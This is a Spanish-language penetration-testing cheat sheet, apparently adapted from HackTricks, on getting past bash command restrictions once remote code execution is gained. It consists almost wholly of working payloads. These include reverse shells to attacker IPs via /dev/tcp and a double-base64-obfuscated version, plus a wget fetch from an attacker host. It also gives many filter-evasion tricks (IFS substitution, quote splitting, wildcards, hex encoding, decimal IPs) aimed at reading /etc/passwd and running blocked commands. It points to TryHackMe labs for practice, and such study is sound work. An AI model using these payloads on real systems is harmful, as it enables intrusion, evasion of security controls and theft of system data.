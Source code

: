 ```yaml
---
title: Bypass Bash Restrictions
published: true
---
```


# BYPASS BASH RESTRICTIONS

## Table of contents

- [BYPASS BASH RESTRICTIONS](#bypass-bash-restrictions)
  - [INTRODUCCION](#introduccion)
  - [TRUCOS REVERSE SHELL](#trucos-reverse-shell)
    - [PROBAR CON RUTA ABSOLUTA](#probar-con-ruta-absoluta)
    - [DOBLE BASE64](#doble-base64)
    - [SHORT REVERSE SHELL](#short-reverse-shell)
  - [TRUCOS PALABRSA PROHIBIDAS Y BYPASS PATHS](#trucos-palabrsa-prohibidas-y-bypass-paths)
    - [SUSTITUIR UN CARACTER CON SIGNO DE INTERROGACION]
    (#sustituir-un-caracter-con-signo-de-interrogacion)
    - [SUSTITUIR UN CARACTER CON COMODIN](#sustituir-un-caracter-con-comodin)
    - [SUSTITUIR UN CARACTER ENCERRANDOLO ENTRE CORCHETES](#sustituir-un-caracter-encerrandolo-entre-corchetes)
    - [COMILLAS PARA CONCATENACIONES](#comillas-para-concatenaciones)
    - [EJECUCION A TRAVES DEL $0](#ejecucion-a-traves-del-0)
    - [BYPASS MEDIANTE VARIABLES NO INICIALIZADAS](#bypass-mediante-variables-no-inicializadas)
    - [BYPASS USANDO FALSOS COMANDOS](#bypass-usando-falsos-comandos)
    - [BYPASS MEDIANTE CONCATENACION USANDO EL HISORIAL](#bypass-mediante-concatenacion-usando-el-hisorial)
  - [BYPASS ESPACIOS PROHIBIDOS](#bypass-espacios-prohibidos)
  - [BYPASS SLASH Y BACKSLASH](#bypass-slash-y-backslash)
  - [BYPASS CON CODIFICACION EN HEXADECIMAL](#bypass-con-codificacion-en-hexadecimal)
  - [BYPASS DE IP](#bypass-de-ip)

## INTRODUCCION

Puede suceder que tenemos un RCE o una reverse shell pero nos bloquea ciertos comandos o caracteres, esto es posible evadir jugando con algunos trucos.

## TRUCOS REVERSE SHELL

### PROBAR CON RUTA ABSOLUTA

```bash
/bin/ls
```

[https://tryhackme.com/room/chillhack](https://tryhackme.com/room/chillhack)

### DOBLE BASE64

```bash
# Double-Base64 es una gran manera de evitar bad charecters como +, funciona el 99% del tiempo
echo "echo $(echo 'bash -i >& /dev/tcp/10.10.14.8/4444 0>&1' | base64 | base64)|ba''se''6''4 -''d|ba''se''64 -''d|b''a''s''h" | sed 's/ /${IFS}/g'
#echo\WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4TkM0NEx6UTBORFFnTUQ0bU1Rbz0K|ba''se''6''4${IFS}-''d|ba''se''64${IFS}-''d|b''a''s''h
```

### SHORT REVERSE SHELL

```bash
#invocar la reverse shell
(sh)0>/dev/tcp/10.10.10.10/443
#luego colocar esto para tener una salida
exec >&0
```

## TRUCOS PALABRSA PROHIBIDAS Y BYPASS PATHS

### SUSTITUIR UN CARACTER CON SIGNO DE INTERROGACION

```bash
/usr/bin/p?ng #/usr/bin/ping
nma? -p 80 localhost #/usr/bin/nmap -p 80 localhost
```

### SUSTITUIR UN CARACTER CON COMODIN

```bash
/usr/bin/who*mi # /usr/bin/whoami
```

### SUSTITUIR UN CARACTER ENCERRANDOLO ENTRE CORCHETES

```bash
# [chars]

/usr/bin/n[c] # /usr/bin/nc
```

### COMILLAS PARA CONCATENACIONES

```bash
# Quotes / Concatenation

'p'i'n'g # ping

"w"h"o"a"m"i # whoami

\u\n\a\m\e \-\a # uname -a

ech''o test # echo test

ech""o test # echo test

bas''e64 # base64

/\b\i\n/////s\h
```

### EJECUCION A TRAVES DEL $0

En $0 se encuentra el tipo de shell que utiliza el sistema por defecto, puede ser **sh, bash, zsh, etc**

```bash
echo whoami|$0
```

### BYPASS MEDIANTE VARIABLES NO INICIALIZADAS

```bash
# Variables no inicializadas: Una variable no inicializada es igual a nulo (nada)

cat$u /etc$u/passwd$u  # cat /etc/passwd

p${u}i${u}n${u}g #ping
```

### BYPASS USANDO FALSOS COMANDOS

entre caracter y caracter del comando que queremos ejecutar podemos colocar un comando erroneo, dependiendo de cuantos errores pongamos nos saldran la misma cantidad de errores y al final el resultado del comando

```bash
p$(u)i$(u)n$(u)g # ping

w`u`h`u`o`u`a`u`m`u`i #whoami

# w`u`h`u`o`u`a`u`m`u`i
zsh: command not found: u
zsh: command not found: u
zsh: command not found: u
zsh: command not found: u
zsh: command not found: u
root

```

### BYPASS MEDIANTE CONCATENACION USANDO EL HISORIAL

```bash
# Concatenación de cadenas usando el historial

# !-1 Se sustituirá por el último comando ejecutado, y !-2 por el penúltimo comando

mi # Esto arrojará un error (PENULTIMO)

whoa # Esto arrojará un error (ULTIMO)

!-1!-2 # Esto ejecutará whoami
```

## BYPASS ESPACIOS PROHIBIDOS

Estos trucos en caso de que los espacios entre comandos esten prohibidos:

```bash
# {form}
{cat,lol.txt} # cat lol.txt
{echo,test} # echo test
```

```bash
## IFS - Internal field separator, change " " for any other character ("]" in this case)
cat${IFS}/etc/passwd # cat /etc/passwd
cat$IFS/etc/passwd # cat /etc/passwd

# Put the command line in a variable and then execute it
IFS=];b=wget]10.10.14.21:53/lol]-P]/tmp;$b
IFS=];b=cat]/etc/passwd;$b # Using 2 ";"
IFS=,;`cat<<<cat,/etc/passwd` # Using cat twice

#  Other way, just change each space for ${IFS}
echo${IFS}test
```

```bash
# Using hex format
X=$'cat\x20/etc/passwd'&&$X
```

```bash
# New lines
p\
i\
n\
g # These 4 lines will equal to ping
```

```bash
## Undefined variables and !
$u $u # This will be saved in the history and can be used as a space, please notice that the $u variable is undefined
uname!-1\-a # This equals to uname -a
```

## BYPASS SLASH Y BACKSLASH

Trucos en casod e que esten prohibidos los slash y backslash:

```bash
cat ${HOME:0:1}etc${HOME:0:1}passwd
```

```bash
cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```

## BYPASS CON CODIFICACION EN HEXADECIMAL

```bash
echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat abc
`echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
cat `xxd -r -p <<< 2f6574632f706173737764`
xxd -r -ps <(echo 2f6574632f706173737764)
cat `xxd -r -ps <(echo 2f6574632f706173737764)`
```

## BYPASS DE IP

```bash
# Decimal IPs
127.0.0.1 == 2130706433

ping -c 1 2130706433
```

PRACTICAR:

- PICKLE RICK - THM

FUENTE:

- [https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions](https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions)